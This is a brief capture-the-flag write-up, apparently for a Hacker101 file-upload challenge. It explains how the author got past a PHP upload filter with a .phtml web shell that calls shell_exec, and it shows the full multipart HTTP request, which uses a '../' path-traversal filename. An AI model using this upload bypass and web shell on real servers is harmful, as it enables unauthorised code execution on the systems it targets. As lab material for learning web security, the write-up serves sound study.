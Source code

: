 # Hacker 101 CTF Y2FuIHlvdSByZWNvbj8/

3 Flags

File uploader

After uploading an image file I attempted the typical php upload which was rejected.

A common bypass for upload exploitation is to use the php html parsing technique by uploading a .phtml file.

```phtml
<?php
    $astro = shell_exec('ls .. a');
    echo $astro;
?>
```

```http
POST / HTTP/2
Host: 509c4bacb706f6647b9e57bc8b7e22bb.ctf.hacker101.com
Content-Length: 373
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://509c4bacb706f6647b9e57bc8b7e22bb.ctf.hacker101.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryASJAHX70lbuwhNS8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://509c4bacb706f6647b9e57bc8b7e22bb.ctf.hacker101.com/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryASJAHX70lbuwhNS8
Content-Disposition: form-data; name="filename"

../flags.phtml
------WebKitFormBoundaryASJAHX70lbuwhNS8
Content-Disposition: form-data; name="upload"; filename="astro.phtml"
Content-Type: application/octet-stream

<?php
    $astro = shell_exec('ls .. a');
    echo $astro;
?>
------WebKitFormBoundaryASJAHX70lbuwhNS8--
```

After much frustration I was curious about the multiple Content-Disposition headers.

This led me to add a directory check following the first webkit boundary.

I then went to my browser and added the /flags.phtml to the URL.

This then returned all three flags. Short but sweet.
